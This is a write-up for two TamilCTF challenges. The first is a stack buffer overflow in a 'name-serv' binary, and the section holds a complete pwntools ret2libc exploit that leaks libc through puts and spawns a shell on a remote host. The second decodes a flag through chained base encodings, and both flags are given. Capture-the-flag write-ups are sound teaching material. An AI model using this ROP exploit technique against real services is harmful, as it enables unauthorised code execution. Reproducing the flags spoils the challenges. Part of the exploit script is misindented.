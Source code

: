 # TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



## Analysing the binary on Ghidra



![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930131942.png)

#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset

![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930134637.png)



*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part



      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)



      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}





# Bases 485 Points ,22 solves

***We are give a file encoded in some randome gibrish***
```bash
![image](https://user-images.githubusercontent.com/67697492/135418886-db201b88-1274-4261-ad21-b2184774cea7.png)
```

***After a bit of researching and previous ctf ideas found out that this  is a base65536 encoded file ***
***BASE65536 as per records:***
	* Base65536 is a binary encoding optimised for UTF-32-encoded text. (For transmitting data through Twitter, Base65536 is now considered obsolete; see 		* Base2048.) This JavaScript module, base65536, is the first implementation of this encoding.
	* Base65536 uses only "safe" Unicode code points - no unassigned code points, no whitespace, no control characters, etc..
	
## To deocde the base65536 we first convert it into a unicode using npm module of base65536
```javascript
	import { encode, decode } from 'base65536'
import fs from 'fs'

var  data=fs.readFileSync('file.txt').toString('utf-8')
var decoded = new Uint8Array(decode(data))

fs.writeFileSync('out',decoded)
```
__This gives us a decoded output :26p0EtovXlssmYqbk1UON3JCIFVyYW3V3culA1cJ0AJ8mHvzgWbefttYEpfYlcpt9nh3oZiaWI24d0jzcxBOdq0Ybes3EKUw7GEEfLYM0qpp___
 	* This doesnt look like any known base encodings 
	* After a bit of googling found out that this is a base91 encoded value

Fun thing ***Found a github repo that finds and deocdes the known basex values***

[Github](https://github.com/mufeedvh/basecrack)
	
**After that thats a matter of multiple times of decoding**
	* The order goes like BASE65535->BASE91->BASE62->BASE32->ASCII85->FLAG
***FLAG***
## TamilCTF{B4s3_C1ph3r_4r3_re4lly_c00l!!}

